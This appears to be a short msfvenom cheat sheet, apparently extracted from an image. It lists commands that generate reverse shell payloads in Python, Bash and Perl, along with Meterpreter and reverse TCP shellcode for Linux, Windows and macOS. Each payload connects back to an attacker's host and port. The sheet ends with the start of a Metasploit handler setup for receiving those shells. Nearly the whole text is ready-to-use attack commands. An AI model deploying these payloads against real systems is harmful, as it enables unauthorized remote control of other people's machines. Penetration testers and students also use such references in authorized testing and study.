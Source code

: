 

Scripting Payloads

Python



msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash



msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl



msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

Shellcode:



For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.



Linux Based Shellcode



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Windows Based Shellcode



msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>



Mac Based Shellcode



msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Handlers



Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.



use exploit/multi/handler



set PAYLOAD <Payload name>
